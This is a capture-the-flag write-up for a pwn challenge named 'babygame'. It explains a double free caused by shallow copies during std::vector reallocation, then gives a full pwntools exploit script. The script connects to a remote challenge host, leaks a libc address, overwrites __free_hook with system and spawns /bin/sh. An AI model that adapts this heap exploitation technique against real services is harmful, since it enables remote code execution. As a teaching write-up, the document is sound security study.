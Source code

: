 ## babygame

### idea

The implementation of vector::push_back.

Almost everyone know that when we use the vector::push_back(object) function, it will call the copy constructor , which is a shallow copy.  And if there is a resource deletion in the destrutor and  we  delete the the object  and use vector::clear(), it will cause a double free.

But if you go through the code , you will find only the vector::clear() funtion, there is not another object deletion.(in the program the object is created by ```new``` operation so need to be delete by ```delete``` operation )

Many one ignore the impelmentation of expending capacity of vector. While expending the capacity , the vector will first use the copy constructor to create new object and then use destrutor to delete the original one. This is another resource releasion.

So  we need to pass the first level of the game , and the first level will be pushed into the vector. And if we quit in the second level, in order to expend the capaciity , the first level will be copyed and deleted. And while calling the vector::clear() , the first level will be deleted aggin.



### EXP

```
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2021 vam <edit py/.vimrc to change me>
#
from pwn import *
#io = process("./game.out")
io = remote("52.152.231.198",8082)
context.log_level = 'debug'
libc = ELF("./bc.so.6")
def debug():
    print io.pid
    pause()

def add():
    io.sendlineafter("Please input an level from 1-9",'1')
    io.send("w\ns\na\na\nd\ns\ns\nw\nd\nd\n") 
    io.sendlineafter("Please input an level from 1-9",'2')
    io.sendlineafter("Please input an order:",'q')
    io.sendafter("leave your name?",'n\n')
    io.sendafter("restart?",'y\n')
def edit(name):
    io.sendlineafter("Please input an level from 1-9",'q')
    io.sendafter("leave your name?",'y\n')
    io.sendafter("your name:\n",name+"\n")
    io.sendafter("restart?",'y\n')  
def exploit():
    for i in range(1):
        add()
    io.sendlineafter("Please input an level from 1-9",'l') 
    s = io.recvuntil("message:")
    s = io.recvline() 
    s = s[:-1]
    s = s.ljust(8, chr(0))
    s = u64(s) 
    print hex(s) 
    libc.address = s - 0x3ebca0
    print hex(libc.address)
    edit('a'*0x50)
    freehook = libc.sym['__free_hook']
    payload = p64(freehook) 
    payload = payload.ljust(0x50,'a')
    edit(payload)
    edit(payload) 
    system = libc.sym["system"]
    payload = p64(system)
    payload = payload.ljust(0x50,'a') 
    edit(payload)
    io.sendlineafter("Please input an level from 1-9",'1') 
    io.sendafter("Please input an order:",'m\n')
    io.sendafter("message:",'/bin/sh\x00\n')
    io.sendafter("Please input an order:",'q\n') 
    io.sendafter("leave your name?",'n\n')  
    io.interactive()
exploit()

```

